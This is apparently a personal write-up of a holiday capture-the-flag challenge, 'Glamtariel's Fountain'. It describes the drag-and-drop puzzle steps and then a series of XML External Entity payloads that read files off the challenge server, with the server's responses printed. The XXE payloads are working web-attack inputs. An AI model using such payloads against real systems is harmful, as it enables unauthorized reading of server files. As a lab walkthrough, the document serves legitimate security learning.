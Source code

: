 # Glamtariel's Fountain Challenge

Explain that I had to drag things into either Glamtariel herself or her fountain. The CAPITAL LETTERS were clues as to what to focus on for each part of the challenge. You reach part two of the challenge when all you have to offer Glamtariel and her fountain are a set of 4 rings.

The opening image:
![The Fountain](/img/fountain/fountain1.png)

Click on Santa...
![The Fountain](/img/fountain/fountain2.png)

Click the candy cane...
![The Fountain](/img/fountain/fountain3.png)

Drag santa to the cake...
![The Fountain](/img/fountain/fountain4.png)

Drag the ice to the cake:
![The Fountain](/img/fountain/fountain5.png)

Drag the elf to the cake...
![The Fountain](/img/fountain/fountain6.png)

Drag the candy cane to the cake...
![The Fountain](/img/fountain/fountain7.png)

Drag santa to Glamtariel...
![The Fountain](/img/fountain/fountain8.png)

Drag the ice cube to Glamtariel...
![The Fountain](/img/fountain/fountain9.png)

Drag the candy can to Glamtariel...
![The Fountain](/img/fountain/fountain10.png)

Drag the elf to Glamtariel...
![The Fountain](/img/fountain/fountain11.png)

Changes the icons! WTF

Drag the weird puck thing to the cake:
![The Fountain](/img/fountain/fountain12.png)

Drag the sailboat to the cake:
![The Fountain](/img/fountain/fountain13.png)

![The Fountain](/img/fountain/fountain14.png)



Tampering with the `MiniLembanh` cookie unfortunately does nothing more than force you to start over. This took a while to realize that this wasn't the way forward but rather a way that the challenge punishes you for messing with the wrong data. But live and learn I suppose.

![The Fountain](/img/fountain/fountain15.png)

```
Content-Type: application/xml

<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
	<!ELEMENT visit ANY >
<!ENTITY xxe SYSTEM "file:///static/js/ringlist.js">]>
<root>
<imgDrop>&xxe;</imgDrop>
<who>princess</who>
<reqType>xml</reqType>
<visit>
&xxe;
</visit>
</root>
```

After a while, THIS is what FINALLY WORKED.

I hate these CTF challenges. such a waste of time.

```xml
<?xml version="1.0" encoding="UTF-8" standalone="no"?>
<!DOCTYPE imgDrop [
<!ELEMENT imgDrop ANY >
<!ENTITY xxe SYSTEM "file:///app/static/images/ringlist.txt" >]>
<root>
    <imgDrop>&xxe;</imgDrop>
    <reqType>xml</reqType>
    <who>princess</who>
</root>
```

Replied with:

```json
{
  "appResp": "Ah, you found my ring list! Gold, red, blue - so many colors! Glad I don't keep any secrets in it any more! Please though, don't tell anyone about this.^She really does try to keep things safe. Best just to put it away. (click)",
  "droppedOn": "none",
  "visit": "static/images/pholder-morethantopsupersecret63842.png,262px,100px"
}
```

The image in question:

![The Fountain](/img/fountain/fountain16.png)

Changing the XXE a little bit gives me more info:

```xml
<?xml version="1.0" encoding="UTF-8" standalone="no"?>
<!DOCTYPE imgDrop [
<!ELEMENT imgDrop ANY >
<!ENTITY xxe SYSTEM "file:///app/static/images/x_phial_pholder_2022/bluering.txt" >]>
<root>
    <imgDrop>&xxe;</imgDrop>
    <reqType>xml</reqType>
    <who>princess</who>
</root>
```

```json
{
  "appResp": "I love these fancy blue rings! You can see we have two of them. Not magical or anything, just really pretty.^She definitely tries to convince everyone that the blue ones are her favorites. I'm not so sure though.",
  "droppedOn": "none",
  "visit": "none"
}
```

Glamtarial was talking about a silver ring, so...

```xml
<?xml version="1.0" encoding="UTF-8" standalone="no"?>
<!DOCTYPE imgDrop [
<!ELEMENT imgDrop ANY >
<!ENTITY xxe SYSTEM "file:///app/static/images/x_phial_pholder_2022/silverring.txt" >]>
<root>
    <imgDrop>&xxe;</imgDrop>
    <reqType>xml</reqType>
    <who>princess</who>
</root>
```

```json
{
  "appResp": "I'd so love to add that silver ring to my collection, but what's this? Someone has defiled my red ring! Click it out of the way please!.^Can't say that looks good. Someone has been up to no good. Probably that miserable Grinchum!",
  "droppedOn": "none",
  "visit": "static/images/x_phial_pholder_2022/redring-supersupersecret928164.png,267px,127px"
}
```

The plot thickens...

![The Fountain](/img/fountain/fountain17.png)


Searched for that file, and now we're up to this...

```json
{
  "appResp": "Hmmm, and I thought you wanted me to take a look at that pretty silver ring, but instead, you've made a pretty bold REQuest. That's ok, but even if I knew anything about such things, I'd only use a secret TYPE of tongue to discuss them.^She's definitely hiding something.",
  "droppedOn": "none",
  "visit": "none"
}
```

Interesting easter egg...

```xml
<?xml version="1.0" encoding="UTF-8" standalone="no"?>
<!DOCTYPE imgDrop [
<!ELEMENT imgDrop ANY >
<!ENTITY xxe SYSTEM "file:///app/static/images/x_phial_pholder_2022/greenring.txt" >]>
<root>
    <imgDrop>&xxe;</imgDrop>
    <reqType>xml</reqType>
    <who>princess</who>
</root>
```

```json
{
  "appResp": "Hey, who is this guy? He doesn't have a ticket!^I don't remember seeing him in the movies!",
  "droppedOn": "none",
  "visit": "static/images/x_phial_pholder_2022/tomb2022-tommyeasteregg3847516894.png,230px,30px"
}
```

Homage to Tom Bombadil of Tolkien fame:

![The Fountain](/img/fountain/fountain18.png)

FINALLY...

```xml
<?xml version="1.0" encoding="UTF-8" standalone="no"?>
<!DOCTYPE imgDrop [
<!ELEMENT imgDrop ANY >
<!ENTITY xxe SYSTEM "file:///app/static/images/x_phial_pholder_2022/goldring_to_be_deleted.txt" >]>
<root>
    <imgDrop>img1</imgDrop>
    <reqType>&xxe;</reqType>
    <who>princess</who>
</root>
```

so FREAKIN ANNOYING

```json
{
  "appResp": "No, really I couldn't. Really? I can have the beautiful silver ring? I shouldn't, but if you insist, I accept! In return, behold, one of Kringle's golden rings! Grinchum dropped this one nearby. Makes one wonder how 'precious' it really was to him. Though I haven't touched it myself, I've been keeping it safe until someone trustworthy such as yourself came along. Congratulations!^Wow, I have never seen that before! She must really trust you!",
  "droppedOn": "none",
  "visit": "static/images/x_phial_pholder_2022/goldring-morethansupertopsecret76394734.png,200px,290px"
}
```

![The Fountain](/img/fountain/fountain19.png)